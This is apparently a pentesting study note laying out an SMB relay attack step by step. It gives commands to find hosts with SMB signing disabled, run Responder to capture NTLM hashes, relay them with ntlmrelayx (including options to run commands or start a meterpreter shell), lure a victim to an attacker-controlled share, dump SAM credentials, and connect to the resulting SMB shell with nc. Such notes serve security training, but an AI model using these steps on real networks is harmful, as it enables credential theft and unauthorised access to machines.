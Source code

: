 # SMB Relay Attacks Overview

## What is it?

* instead of cracking hashes gathered with Responder, we can instead relay those hashes to

  specific machines and potentially gain access

## Requirements

* SMB Signing must be disabled on the target
* relayed user credentials must be admin on machine
* cannot relay a hash to a machine that you got from that machine

## Gaining Access with SMB Relay

### Step 1: Discovering Hosts with SMB Signing Disabled

```bash
nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.0.1/24
```

* github has scripts
* Nessus can check too

### Step 2: Put Targets in a Txt

```bash
gedit targets.txt
```

* paste the ip's of the targets with disabled SMB signing

### Step 3: Edit Responder

```bash
sudo gedit /etc/responder/Responder.conf
```

* turn SMB and HTTP to OFF

### Step 4: Run Responder

```bash
sudo responder -I eth0 -rdw
```

### Step 5: Set Up The Relay

```bash
sudo [ntlmrelayx.py](http://ntlmrelayx.py/) -tf targets.txt -smb2support
```

* if you have to restart it: kill -9 
* can use the -c flag to run commands once it is connected or -e to setup a shell, like meterpreter

### Step 6: SMB Relay Fail Event Occurs

* like a user typing in the wrong network drive

```bash
\\<attacker ip>
#can put this into the file browser on the victim machine to force a fail
```

### Step 7: Win

* it runs attack and dumps files, like SAM

### ntlmrelayx Shell

* the output after running the above steps should say something about a SMB shell

```bash
nc 127.0.0.1 11000
```

* type help to see the commands that can be used

